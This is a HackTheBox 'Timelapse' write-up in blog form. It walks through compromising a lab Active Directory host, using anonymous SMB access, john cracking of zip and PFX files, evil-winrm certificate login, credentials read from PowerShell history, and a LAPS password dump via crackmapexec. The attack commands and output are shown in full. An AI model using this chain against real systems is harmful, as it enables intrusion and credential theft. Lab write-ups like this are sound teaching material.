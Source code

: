 ```yaml
---
layout: post
title: HackTheBox - Timelapse
category: HackTheBox
tags: machines smb laps brute-force windows
date: 2022-08-25 17:18 +0300
---
```


![Machine logo](/assets/hackthebox/timelapse/Timelapse.png){:height="414px" width="615px"}

## Configuration:
It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.
```zsh
$ echo '10.10.11.152 timelapse.htb' | sudo tee -a /etc/hosts 
```

## Reconnaissance:
```zsh
$ nmap -p- timelapse.htb -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 11:10 UTC
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.056s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
62020/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 111.03 seconds
```

It looks like an `Active Directory` domain.

## Enumeration:
Let's start with smb enumeration. It is also can be done by simple `smbclient`.
```zsh
$ crackmapexec smb timelapse.htb -u 'a' -p '' --shares
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [+] timelapse.htb\a: 
SMB         timelapse.htb   445    DC01             [+] Enumerated shares
SMB         timelapse.htb   445    DC01             Share           Permissions     Remark
SMB         timelapse.htb   445    DC01             -----           -----------     ------
SMB         timelapse.htb   445    DC01             ADMIN$                          Remote Admin
SMB         timelapse.htb   445    DC01             C$                              Default share
SMB         timelapse.htb   445    DC01             IPC$            READ            Remote IPC
SMB         timelapse.htb   445    DC01             NETLOGON                        Logon server share 
SMB         timelapse.htb   445    DC01             Shares          READ            
SMB         timelapse.htb   445    DC01             SYSVOL                          Logon server share
```

We can read 2 shares without login, now we connect with `smbclient` and search.
```zsh
$ smbclient -N \\\\timelapse.htb\\Shares\\
smb: \> dir
  .                                   D        0  Mon Oct 25 15:39:15 2021
  ..                                  D        0  Mon Oct 25 15:39:15 2021
  Dev                                 D        0  Mon Oct 25 19:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 15:48:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 19:40:06 2021
  ..                                  D        0  Mon Oct 25 19:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 15:46:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \Dev\> get winrm_backup.zip
smb: \Dev\> cd ..
smb: \> cd HelpDesk
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 15:48:42 2021
  ..                                  D        0  Mon Oct 25 15:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 14:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 14:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 14:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 14:57:44 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \HelpDesk\> mget *
```

winrm_backup.zip archive has a password, we will try to brute it with `john`.
```zsh
$ zip2john winrm_backup.zip > hash
$ john --wordlist=rockyou.txt hash
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
```

legacyy_dev_auth.pfx is a `PKCS#12` file format, contains the SSL certificate (public keys) and the corresponding private keys. But it requires password to extract. Let's convert it to hash and brute it again!
```zsh
$ pfx2john legacyy_dev_auth.pfx > hash
$ john --wordlist=rockyou.txt hash
thuglegacy       (legacyy_dev_auth.pfx)
```

Now we got the password and able to extract a certificate and a private key. We use `openssl` library to do that.
```zsh
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt
```

## user.txt
Now we have a certificate and a private key. We can use them to auth into the machine with `evil-winrm`.
```zsh
$ evil-winrm -i timelapse.htb -S -k private.key -c certificate.crt
*Evil-WinRM* PS C:\Users\legacyy\Documents>
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
*Evil-WinRM* PS C:\Users\legacyy> type Desktop\user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

## root.txt
Here we have to search. By searching in `Program Files` folder, we have to note that `LAPS` in installed and enabled. We can upload and execute `winPEAS`. It will show us a command history file.

![PowerShell history file](/assets/hackthebox/timelapse/history_file.png)

Let's open it!

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Downloads> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We can see the credentials here: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`.

svc_deploy user is a member of `LAPS_Readers` group, which can extract `Local Administrator` password. We are using `crackmapexec` to do that.

```zsh
$ crackmapexec smb timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps  
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [-] DC01\administrator:ImM+fZ5b;G82H&S+5.&5)sW} STATUS_LOGON_FAILURE
```

Then, we got it: `administrator:ImM+fZ5b;G82H&S+5.&5)sW}`. It's time to log in and get the flag!

```zsh
$ evil-winrm -i timelapse.htb -u 'administrator' -p 'ImM+fZ5b;G82H&S+5.&5)sW}' -S
*Evil-WinRM* PS C:\Users\Administrator\Documents> gci -Path C:\ -Recurse -Include 'root.txt'
    Directory: C:\Users\TRX\Desktop
-ar---         7/1/2022   9:25 AM             34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../../TRX/Desktop/root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

It was in unusual location, so we had to search for it with `Get-ChildItem`.

## Conclusion
I've really enjoyed the box. It was interesting to learn some new things.

Thank you for reading, I hope it was useful for you ❤️
